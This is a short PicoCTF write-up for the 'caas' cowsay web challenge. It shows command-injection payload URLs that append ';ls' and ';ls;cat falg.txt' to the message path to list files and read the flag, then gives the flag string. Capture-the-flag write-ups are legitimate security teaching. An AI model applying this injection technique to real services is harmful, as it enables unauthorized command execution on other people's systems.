

# WriteUp PicoCTF

# caas - Web Exploition

## Statement

Link to that website [cass](https://caas.mars.picoctf.net/cowsay/message)

## Solution
With cowsay service, we have a linux commands vulnerability.
Try with this payload [https://caas.mars.picoctf.net/cowsay/message;ls](https://caas.mars.picoctf.net/cowsay/message;ls) and we have:

Here we see the falg.txt. Cat this file with the payload [https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt](https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt) and we have:

Images/caas2.png)

## Flag
>**picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**